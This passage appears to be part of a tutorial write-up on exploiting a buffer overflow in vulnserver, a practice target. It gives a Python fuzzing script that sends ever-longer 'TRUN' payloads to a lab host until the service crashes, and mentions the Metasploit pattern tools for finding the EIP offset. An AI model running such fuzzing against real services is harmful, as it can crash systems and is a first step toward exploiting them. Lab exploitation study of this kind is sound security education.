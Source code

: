 ### Python fuzzing script, pattern_create.rb, pattern_offset.rb

The next step was to create a Python script to get within about 1000 characters of the payload that crashes the server.

We don't need to be precise because as long as *any 4 bytes* of our payload is injected into the EIP register, we can
use the `pattern_offset.rb` tool to determine what position those 4 bytes were injected at.

#### Finding the rough position of when the payload gets injected

options.py:
{% highlight python linenos %}
PORT = 9999
HOST = '192.168.33.16'
<...>
{% endhighlight %}

fuzz.py:
{% highlight python linenos %}
#!/usr/bin/env python2

"""
Determines the length of bytes necessary to trigger a buffer overflow in vulnserver
"""

import sys, socket
from time import sleep
from options import HOST, PORT

buffer = 'A' * 100

while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((HOST, PORT))

        cmd = ('TRUN /.:/' + buffer)
        # print("SEND "+cmd)
        s.send(cmd)
        print("sent %d bytes" % len(buffer))
        s.close()
        sleep(1)

        buffer = buffer + ("A" * 100)
    except:
        print("crashed at %d bytes" % len(buffer))
        # print(e)
        sys.exit()
{% endhighlight %}
